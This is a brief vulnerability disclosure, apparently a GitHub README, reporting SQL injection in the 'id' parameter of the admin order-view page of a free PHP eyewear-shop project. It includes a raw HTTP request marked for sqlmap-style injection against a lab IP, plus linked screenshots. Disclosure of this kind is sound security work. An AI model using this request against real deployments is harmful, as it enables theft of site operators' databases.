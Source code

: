 # Online Eyewear Shop Website has SQL injection

BUG_Author: Murasaki

URL: /oews/admin/?page=orders/view_order&id=*

Link：https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

Parameter "id" (GET), exists SQL injection vulnerability

SQL injection is found in the administrator background order interface, and the results are obtained by using the data package sent by the administrator authority.

The data package is as follows
```
GET /oews/admin/?page=orders/view_order&id=4* HTTP/1.1
Host: 192.168.8.131
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.8.131/oews/admin/?page=orders
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2alcecghcccelhr289f3t3a01u
Connection: close
```

![](https://github.com/1MurasaKi/Eyewear_Shop_SQLi/blob/main/view_order.png?raw=true)

![](https://github.com/1MurasaKi/Eyewear_Shop_SQLi/blob/main/SQLmap.png?raw=true)
